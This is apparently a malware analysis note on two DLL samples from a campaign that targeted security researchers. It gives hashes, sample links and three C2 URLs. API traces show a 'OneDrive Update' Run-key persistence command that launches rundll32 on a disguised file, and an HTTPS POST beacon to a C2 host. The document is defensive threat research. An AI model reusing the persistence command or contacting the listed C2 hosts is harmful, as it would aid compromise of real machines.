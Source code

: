 SHA256 : 4c3499f3cc4a4fdc7e67417e055891c78540282dccc57e37a01167dfe351b244  
SHA256 : A75886B016D84C3EAACAF01A3C61E04953A7A3ADF38ACF77A4A2E3A8F544F855  
sample source : https://bazaar.abuse.ch/sample/4c3499f3cc4a4fdc7e67417e055891c78540282dccc57e37a01167dfe351b244/  
sample source : https://bazaar.abuse.ch/sample/a75886b016d84c3eaacaf01a3c61e04953a7a3adf38acf77a4a2e3a8f544f855/  
VT : https://www.virustotal.com/gui/file/4c3499f3cc4a4fdc7e67417e055891c78540282dccc57e37a01167dfe351b244  
VT : https://www.virustotal.com/gui/file/a75886b016d84c3eaacaf01a3c61e04953a7a3adf38acf77a4a2e3a8f544f855   

Report: https://blog.google/threat-analysis-group/new-campaign-targeting-security-researchers/  

C2 :  
https://www.dronerc.it/shop_testbr/upload/upload.php  
https://transplugin.io/upload/upload.asp  
https://codevexillium.org/image/download/download.asp  

---

Initial DLL (4c3499f3cc4a4fdc7e67417e055891c78540282dccc57e37a01167dfe351b244) is dropping and 'installing' and starting the 2nd DLL (A75886B016D84C3EAACAF01A3C61E04953A7A3ADF38ACF77A4A2E3A8F544F855) through a basic persistency mechanism :  

```html
[ * ] [pid 0xaa0][tid 0xabc] c:\windows\system32\rundll32.exe
[API] <RegSetValueExA> in [ADVAPI32.dll] 
[PAR] HKEY    hKey        : 0xf0 
[PAR] LPCTSTR lpValueName : 0x0000003DFD70EDB0
[STR]         -> "OneDrive Update"
[PAR] DWORD   dwType      : 0x1 (REG_SZ)
[PAR] BYTE    *lpData     : 0x0000003DFD70EEE0
            -> 0x0000003DFD70EEE0
[STR] -> "C:\\Windows\\System32\\rundll32.exe C:\\ProgramData\\VMware\\vmnat-update.bin,OCSP_resp_find lxUi5CZ0IV45j89Y 4901"
[RET] 0x7ff9b1563879 in [cms_data_final.dll]

[ * ] [pid 0xaa0][tid 0xabc] c:\windows\system32\rundll32.exe
[API] <CreateProcessA> in [KERNEL32.DLL] 
[PAR] LPCTSTR               lpApplicationName    : 0x0 (null)
[PAR] LPCTSTR               lpCommandLine        : 0x0000003DFD70EEE0
[STR]                       -> "C:\\Windows\\System32\\rundll32.exe C:\\ProgramData\\VMware\\vmnat-update.bin,OCSP_resp_find lxUi5CZ0IV45j89Y 4901"
[PAR] LPSECURITY_ATTRIBUTES lpProcessAttributes  : 0x0
[PAR] LPSECURITY_ATTRIBUTES lpThreadAttributes   : 0x0
[PAR] BOOL                  bInheritHandles      : 0x0
[PAR] DWORD                 dwCreationFlags      : 0x8000000 (CREATE_NO_WINDOW)
[PAR] LPVOID                lpEnvironment        : 0x0
[PAR] LPCSTR                lpCurrentDirectory   : 0x0 (null)
[PAR] LPSTARTUPINFOA        lpStartupInfo        : 0x0000003DFD70CD30
[FLD]                       -> lpDesktop   = 0x0 (null)
[FLD]                       -> lpTitle     = 0x0 (null)
[FLD]                       -> dwFlags     = 0x0 
[FLD]                       -> wShowWindow = 0x0
[FLD]                       -> hStdInput   = 0x0
[FLD]                       -> hStdOutput  = 0x0
[FLD]                       -> hStdError   = 0x0
[PAR] LPPROCESS_INFORMATION lpProcessInformation : 0x0000003DFD70CD10
[RET] 0x7ff9b156397d in [cms_data_final.dll]
```
--- 
There is then nothing much to observe through dynamic analysis :  

```html
[ * ] [pid 0xb68][tid 0xb9c] c:\windows\system32\rundll32.exe
[API] <InternetConnectW> in [WININET.dll] 
[PAR] HINTERNET     hInternet      : 0xcc0010
[PAR] LPCWSTR       lpszServerName : 0x000000457D49CF40 ("transplugin.io")
[PAR] INTERNET_PORT nServerPort    : 443
[PAR] LPCWSTR       lpszUsername   : 0x0 (null)
[PAR] LPCWSTR       lpszPassword   : 0x0 (null)
[PAR] DWORD         dwService      : 0x3 (INTERNET_SERVICE_HTTP)
[PAR] DWORD         dwFlags        : 0x0 
[RET] 0x1800029f1

[ * ] [pid 0xb68][tid 0xb9c] c:\windows\system32\rundll32.exe
[API] <HttpOpenRequestW> in [WININET.dll] 
[PAR] HINTERNET hConnect           : 0xcc0014
[PAR] LPCWSTR   lpszVerb           : 0x00000001800580D0 ("POST")
[PAR] LPCWSTR   lpszObjectName     : 0x000000457D49D920
[STR]           -> "/upload/upload.asp"
[PAR] LPCWSTR   lpszVersion        : 0x00000001800580B8
[STR]           -> "HTTP/1.0"
[PAR] LPCWSTR   lpszReferer        : 0x0 (null)
[PAR] LPCWSTR   *lplpszAcceptTypes : 0x0
[PAR] DWORD     dwFlags            : 0x803000 (INTERNET_FLAG_SECURE | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID | INTERNET_FLAG_IGNORE_CERT_CN_INVALID)
[RET] 0x180002a44

[ * ] [pid 0xb68][tid 0xb9c] c:\windows\system32\rundll32.exe
[API] <HttpSendRequestW> in [WININET.dll] 
[PAR] HINTERNET hRequest         : 0xcc0018
[PAR] LPCWSTR   lpszHeaders      : 0x0 (null)
[PAR] DWORD     dwHeadersLength  : 0x0
[PAR] LPVOID    lpOptional       : 0x000000457F1868C0
[STR]           -> "XW=EZYNQE&XOHTN=NDkwMThYOU8zSWRuQjJONw==&EWKK=&HIXXEE=0&HPYYJD=52&JTMDLK=MgAwADIANQAtADAAMwAtADAANAAgADIAMQA6ADMANwA6ADM"
[STR]              "AOQA=&LSZRYMNDS=IPTDYCTZLUHNEJATJ&NONPECZ=FLOTMDRIMZIUQZZG"
[PAR] DWORD     dwOptionalLength : 0xb2
[RET] 0x18000314f
```
--- 

Going through some statical analysis it is possible to identify which library was linked with the malware to provide some cryptography :  

![Alt text](screen/crypto.jpg?raw=true "statically linked lib")

The associated lib was very likely obtained from here :  

https://www.mail-archive.com/openssl-dev@openssl.org/msg28042.html  

![Alt text](screen/source.jpg?raw=true "statically linked lib")

Going further with dynamic analysis would require implemeting a C2 supporting this ECIES encrypted communication protocol


